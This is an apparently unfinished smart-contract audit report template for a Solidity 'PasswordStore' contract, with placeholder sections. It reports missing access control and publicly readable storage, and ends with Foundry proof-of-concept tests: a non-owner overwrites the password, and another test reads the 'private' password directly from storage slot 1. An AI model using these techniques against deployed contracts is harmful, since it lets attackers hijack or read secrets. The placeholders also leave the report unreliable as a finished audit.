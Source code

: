 ```yaml
---
title: Password Store Contract Audit Report
author: Daryle Tan
date: Oct 22, 2023
header-includes:
  - \usepackage{titling}
  - \usepackage{graphicx}
---
```


\begin{titlepage}
\centering
\begin{figure}[h]
\centering
\includegraphics[width=0.5\textwidth]{logo.pdf}
\end{figure}
\vspace\*{2cm}
{\Huge\bfseries Protocol Audit Report\par}
\vspace{1cm}
{\Large Version 1.0\par}
\vspace{2cm}
{\Large\itshape Cyfrin.io\par}
\vfill
{\large \today\par}
\end{titlepage}

\maketitle

<!-- Your report starts here! -->

Prepared by: [Daryle Tan](https://daryle-tan.netlify.app/)
Lead Auditors:

- xxxxxxx

# Table of Contents

- [Table of Contents](#table-of-contents)
- [Protocol Summary](#protocol-summary)
- [Disclaimer](#disclaimer)
- [Risk Classification](#risk-classification)
- [Audit Details](#audit-details)
  - [Scope](#scope)
  - [Roles](#roles)
- [Executive Summary](#executive-summary)
  - [Issues found](#issues-found)
- [Findings](#findings)
- [High](#high)
- [Medium](#medium)
- [Low](#low)
- [Informational](#informational)
- [Gas](#gas)

# Protocol Summary

Protocol does X, Y, Z

# Disclaimer

The YOUR_NAME_HERE team makes all effort to find as many vulnerabilities in the code in the given time period, but holds no responsibilities for the findings provided in this document. A security audit by the team is not an endorsement of the underlying business or product. The audit was time-boxed and the review of the code was solely on the security aspects of the Solidity implementation of the contracts.

# Risk Classification

|            |        | Impact |        |     |
| ---------- | ------ | ------ | ------ | --- |
|            |        | High   | Medium | Low |
|            | High   | H      | H/M    | M   |
| Likelihood | Medium | H/M    | M      | M/L |
|            | Low    | M      | M/L    | L   |

We use the [CodeHawks](https://docs.codehawks.com/hawks-auditors/how-to-evaluate-a-finding-severity) severity matrix to determine severity. See the documentation for more details.

# Audit Details

## Scopes

## Roles

# Executive Summary

## Issues found

# Findings

lacking-access-control
anyone-can-read-storage

# High

lacking-access-control
anyone-can-read-storage

# Medium

# Low

Password not initialized in constructor

# Informational

# Gas

# POC

```solidity
    function test_missing_owner_check() public {
        // owner can set password
        vm.startPrank(owner);
        string memory expectedPassword1 = "myNewPassword";
        passwordStore.setPassword(expectedPassword1);
        string memory actualPassword1 = passwordStore.getPassword();
        assertEq(actualPassword1, expectedPassword1);
        vm.stopPrank();

        // attacker can also set password
        vm.startPrank(attacker);
        string memory expectedPassword2 = "attackerPassword";
        passwordStore.setPassword(expectedPassword2);
        vm.stopPrank();

        vm.startPrank(owner);
        string memory actualPassword2 = passwordStore.getPassword();
        assertEq(actualPassword2, expectedPassword2);
        vm.stopPrank();
    }

    // Create test to have non owner read the password variable
    function test_contract_memory_read() public view {
        bytes32 password = vm.load(address(passwordStore), bytes32(uint256(1)));
        console.logString(string(abi.encodePacked(password)));
    }
```
